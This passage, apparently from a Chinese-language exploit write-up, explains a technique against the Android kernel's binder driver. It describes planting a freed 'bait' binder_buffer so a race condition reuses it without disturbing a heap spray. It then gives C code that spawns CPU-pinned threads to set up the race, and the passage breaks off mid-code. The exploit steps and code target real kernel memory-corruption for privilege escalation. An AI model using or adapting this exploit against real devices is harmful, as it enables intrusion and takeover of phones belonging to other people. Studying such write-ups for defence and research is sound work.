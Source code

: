 ![](put_bait.png)

首先binder_ioctl->binder_thread_write->case BC_Transaction->bc_transaction->binder_alloc_new_buf ,由于我们没有设置bc_transaction要传递的数据，不会alloc,br_transaction没做什么，关键是bc_reply，由于我们设置了数据，所以会alloc binder_buffer来管理我们的数据，br_reply将这个binder_buffer->alloc_user_free标为1，这个诱饵所作的事就是等会释放掉他，放入alloc_>free_buffer的红黑树中，等到条件竞争时binder_alloc_new_buf，直接拿出这个binder_buffer,而不是进入binder_size !=size malloc了binder_buffer影响我们的堆喷

```c
fillOtherCpu();
```

```c
void fillOtherCpu()
{
	int cores = getCores();
	printf("[+] cpu count:%d\n", cores);
	pthread_t id_cpu1, id1_cpu1, id2_cpu1, id3_cpu1, id4_cpu1, id5_cpu1, id6_cpu1, id7_cpu1;
	pthread_t id_cpu2, id1_cpu2, id2_cpu2, id3_cpu2, id4_cpu2, id5_cpu2, id6_cpu2, id7_cpu2;
	pthread_t id_cpu3, id1_cpu3, id2_cpu3, id3_cpu3, id4_cpu3, id5_cpu3, id6_cpu3, id7_cpu3;
	int cpu1 = 0;
	int cpu2 = 2;
	int cpu3 = 3;
	pthread_create(&id_cpu1, NULL, fillCpu, &cpu1);
	pthread_create(&id1_cpu1, NULL, fillCpu, &cpu1);
	pthread_create(&id2_cpu1, NULL, fillCpu, &cpu1);
	pthread_create(&id3_cpu1, NULL, fillCpu, &cpu1);
	pthread_create(&id4_cpu1, NULL, fillCpu, &cpu1);
	pthread_create(&id5_cpu1, NULL, fillCpu, &cpu1);
	pthread_create(&id6_cpu1, NULL, fillCpu, &cpu1);
	pthread_create(&id7_cpu1, NULL, fillCpu, &cpu1);

	pthread_create(&id_cpu2, NULL, fillCpu, &cpu2);
	pthread_create(&id1_cpu2, NULL, fillCpu, &cpu2);
	pthread_create(&id2_cpu2, NULL, fillCpu, &cpu2);
	pthread_create(&id3_cpu2, NULL, fillCpu, &cpu2);
	pthread_create(&id4_cpu2, NULL, fillCpu, &cpu2);
	pthread_create(&id5_cpu2, NULL, fillCpu, &cpu2);
	pthread_create(&id6_cpu2, NULL, fillCpu, &cpu2);
	pthread_create(&id7_cpu2, NULL, fillCpu, &cpu2);

	pthread_create(&id_cpu3, NULL, fillCpu, &cpu3);
```